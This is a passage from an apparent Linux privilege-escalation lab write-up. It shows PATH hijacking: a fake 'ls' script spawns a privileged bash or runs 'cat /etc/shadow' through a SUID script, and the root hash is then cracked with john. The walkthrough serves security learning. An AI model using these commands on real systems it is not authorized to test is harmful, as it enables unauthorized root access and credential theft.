> You can also use **[pspy](https://github.com/DominicBreuker/pspy)** to monitor the processes.

I created a script that ran **bash** in privileged mode and named it `ls`.

```shell
#!/bin/bash
/bin/bash -p
```

![](https://cdn.ziomsec.com/escalate_linux/14.webp)

I then added the directory where I stored this in the `PATH` variable. Since this path was appended at the start, anytime the system looked for `ls` without it's complete path, it would find it here itself and would hence execute **bash** in privileged mode.

```shell
export PATH=tmp:$PATH
```

![](https://cdn.ziomsec.com/escalate_linux/15.webp)

![](https://cdn.ziomsec.com/escalate_linux/16.webp)

Finally, I executed the script.

![](https://cdn.ziomsec.com/escalate_linux/17.webp)

### Cracking Root Password

Since the `/user5/script` executed the **`ls`** command, I created a new script called **`ls`** in the */tmp* directory with a command to read the shadow file. Then, I added the */tmp* directory to my path variable.

```shell
cd /tmp
echo '#!/bin/bash' > ls
echo 'cat /etc/shadow' >> ls
export PATH=/tmp:$PATH
```

![](https://cdn.ziomsec.com/escalate_linux/18.webp)

Finally, I gave this file execution permission, ran **/home/user5/script** and got a root password.

```shell
chmod +x ls
/home/user5/script
```

![](https://cdn.ziomsec.com/escalate_linux/19.webp)

**`$6$`** indicates the usage of **SHA-512** hash. I copied the password field on my system and used **john** to crack it.

```shell
echo 'HASH' > linpass
john linpass
```
